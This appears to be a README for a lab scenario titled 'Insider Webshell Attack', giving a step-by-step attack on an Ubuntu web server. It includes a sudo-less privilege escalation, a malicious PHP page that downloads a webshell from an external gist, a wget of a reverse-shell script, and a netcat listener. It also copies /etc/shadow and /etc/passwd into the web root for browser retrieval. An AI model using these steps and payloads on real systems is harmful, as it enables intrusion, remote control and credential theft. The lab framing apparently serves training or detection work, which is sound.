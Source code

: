 Insider Webshell Attack
=======================

The Attack
------------------
>1. Login with magnifier on ubuntu-web-pr
>2. Check Sudo Permissions - sudo -l
>3. Create file - touch lesser.txt
>4. Use less - sudo less lesser.txt
>5. Less Exploit - !/bin/sh
>6. Modify getevil.php with Malicious Code
>7. Web Browser to http://ubuntu-web-pr/getevil.php
>8. Web Browser to http://ubuntu-web-pr/evil.php
>9. From evil.php on ubuntu-web-pr Get Reverse Shell - See Reverse Shell Wget
>10. On Remote Attack Console Box Open NetCat Listeners 
>	- Terminal #1 - nc -nvlp 443
>11. Web Browser Tab #1 to http://<ubuntu-web-pr>/reverse-shell.php?ip=<consoleIP>&port=443
>12. On ubuntu-web-pr - whoami
>13. On ubuntu-web-pr - sudo -i
>14. On ubuntu-web-pr - whoami
>15. On ubuntu-web-pr - cp /etc/passwd /var/www/html
>16. On ubuntu-web-pr - cp /etc/shadow /var/www/html
>17. On ubuntu-web-pr - chown apache:apache /var/www/html/shadow
>18. On ubuntu-web-pr - chown apache:apache /var/www/html/passwd
>19. Web Browser to http://ubuntu-web-pr/passwd
>20. Web Browser to http://ubuntu-web-pr/shadow
>21. On ubuntu-web-pr - rm /var/www/html/passwd
>22. On ubuntu-web-pr - rm /var/www/html/shadow


Environment
-----------
**Two Web Servers:** Ubuntu 20.04.1
>VSphere:
>	CPU: 1 
>	Memory: 4 GB
>	Disk: 20 GB
>AWS:
>  t2.micro
>Default Packages Needed: 
>	- cron
>	- rsync
>	- sudo
>	- less
>	Install Apache with PHP on Both Servers:
>	- sudo apt install php libapache2-mod-php
  
**Attacker Remote Console**
>VSphere:
>	CPU: 1 
>	Memory: 4 GB
>	Disk: 20 GB
>AWS:
>  t2.micro
  
**Attacker Remote**
>Any machine with a webbrowser
  
Code
----
**Good getevil.php**
```<html>
<head>
<title>I'm a Good Web Page</title>
</head>
<body>
I'm a Good Web Page
</body>
</html>
```  
  
** Malicious getevil.php*
```
<html> 
<head> 
<title>I'm a Bad Web Page</title> 
</head> 
<body> 
I'm a Bad Web Page 

<?php // Normal code  echo "Whatsupppp";   
// start of evil code 
$code = file_get_contents("https://gist.githubusercontent.com/joswr1ght/22f40787de19d80d110b37fb79ac3985/raw/9377612eeea89aed2b226a870e76ac12965d6694/easy-simple-php-webshell.php"); 
$myfile = fopen("evil.php", "w+") or die("Unable to open file!");   
fwrite($myfile, $code);  
fclose($myfile);  
// end of evil code  ?>
</body> 
</html>  
```  

**Download Reverse Shell**
```
wget https://gist.githubusercontent.com/scottbrumley/cd76c1e61e168a5a4e8c7251fa8e8c82/raw/224af483fd976654c29f1eed9242a233437a6dad/reverse-shell.php
```  
  
